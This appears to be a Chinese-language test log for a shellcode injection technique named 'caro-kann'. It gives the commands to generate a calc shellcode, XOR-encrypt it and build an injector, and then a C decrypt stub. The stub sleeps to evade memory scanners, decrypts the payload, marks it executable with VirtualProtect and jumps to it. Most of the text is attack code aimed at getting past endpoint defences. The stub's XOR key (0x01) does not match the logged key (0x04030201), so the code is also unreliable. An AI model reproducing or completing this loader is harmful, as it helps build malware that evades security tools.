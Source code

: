 ### 成功测试的部分

✅ **Shellcode生成** - 成功
```bash
cd techniques/30-caro-kann/build
./generate_shellcode.exe calc
# Output: calc_shellcode.bin (55 bytes)
```

✅ **XOR加密** - 成功
```bash
./xor_encrypt.exe calc_shellcode.bin calc_encrypted.bin
# XOR Key: 0x04030201
# Output: calc_encrypted.bin (55 bytes, encrypted)
```

✅ **主注入器编译** - 成功
```bash
./build.sh
# caro_kann.exe compiled successfully
```

❌ **Decrypt Stub编译** - 失败（缺少工具）
```bash
gcc -c src/decrypt_stub.c -o build/decrypt_stub.o ...
# Error: 复杂的inline assembly冲突
```

### Decrypt Stub 核心逻辑（理论）

```c
void DecryptStub() {
    // Egg 1: Encrypted payload address (0x8888888888888888)
    void* payloadAddr = <patched at runtime>;

    // Egg 2: Payload size (0xDEAD10AF)
    DWORD payloadSize = <patched at runtime>;

    // Step 1: Sleep - 避开线程创建时的内存扫描
    Sleep(5000);

    // Step 2: XOR 解密
    for (DWORD i = 0; i < payloadSize; i++) {
        ((unsigned char*)payloadAddr)[i] ^= 0x01;
    }

    // Step 3: VirtualProtect(RW → RX)
    DWORD oldProtect;
    VirtualProtect(payloadAddr, payloadSize, PAGE_EXECUTE_READ, &oldProtect);

    // Step 4: 跳转到解密后的 payload
    // Egg 3: Jump address (0x0000000000000000)
    __asm__ volatile (
        "mov r10, %0\n"
        "jmp r10\n"
        : : "r"(payloadAddr)
    );
}
```
